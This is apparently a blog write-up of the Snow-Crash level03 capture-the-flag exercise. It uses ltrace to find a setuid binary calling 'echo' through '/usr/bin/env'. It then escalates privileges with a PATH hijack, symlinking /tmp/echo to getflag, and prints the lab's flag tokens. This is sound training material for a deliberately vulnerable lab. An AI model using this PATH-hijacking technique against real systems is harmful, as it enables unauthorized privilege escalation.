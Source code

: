 ```yaml
---
title:  "Snow-crash Level03"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-02-12
last_modified_at: 2024-02-12
categories: cyber-security
permalink: /cyber-security/snow-crash/
---
```


#### 1. The password of `level03` is the token that got from `level02`.

```
kooda2puivaav1idi4f57q8iq
```
#### 2. So, try login to level03 with the password we got from level02 and try to put the command `ls`. We can see the file `level03`. 
```bash
level00@SnowCrash:~$ su level03
Password: kooda2puivaav1idi4f57q8iq
level03@SnowCrash:~$ ls
level03
```
#### 3. Try to execute the `level03`. but it says `Exploit me`. 
```bash
level03@SnowCrash:~$ ./level03
Exploit me
```
#### 4. When we check with `cat` command, we can see the file type as below. so, we can assume that it's `binary file`. (A binary file is a computer file that is not a text file.)
```bash
level03@SnowCrash:~$ cat level03
ELF44 	($!444  TTT��(((��hhhDDP�td44Q�tdR�td��/lib/ld-linux.so.2GNUGNUOX�;�Sy8n�n��KT{K �K��3LD= T)__gmon_start__libc.so.
6_IO_stdin_usedsetresgidsetresuidsystemgeteg��geteuid__libc_start_mainGLIBC_2.0ii
...
..
.
```
#### 5. So, let's debug with `ltrace`. `ltrace` is a debugging utility on Unix-like systems that can be used to intercept and display dynamic library calls.

```bash
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                         = 2003
geteuid()                                         = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                            = 0
+++ exited (status 0) +++
```
We found the echo of "Exploit me", the same result when we execute ./level03 at the beginning.

`system("/usr/bin/env echo Exploit me"Exploit me`

It shows that `echo` command is executed from the located in `/usr/bin/env`.

If so, we can control the execution of the env command by changing the `PATH` environment variable. 

#### 6. To execute the program `getflag` located in `/bin` as if it were echo, we create a symbolic link named echo to pointing `getflag` in `/tmp` directory. By adding `/tmp` to the PATH, we ensure that our fake echo in `/tmp` is executed when `env` searches for the `echo` command. 

```bash
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
level03@SnowCrash:~$ export PATH="/tmp:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token :qi0maab88jeaj46qoumi7maus
```
* `ln`: to create the links for the files

* `-s`: option to specify that this will be a symbolic link.

* /bin/getflag : Location that is stored Password

* `export PATH="/tmp:$PATH"` : Add the PATH environment variable to pointing /tmp directory. 


#### 7.  We got a token for next level04

```
qi0maab88jeaj46qoumi7maus
```
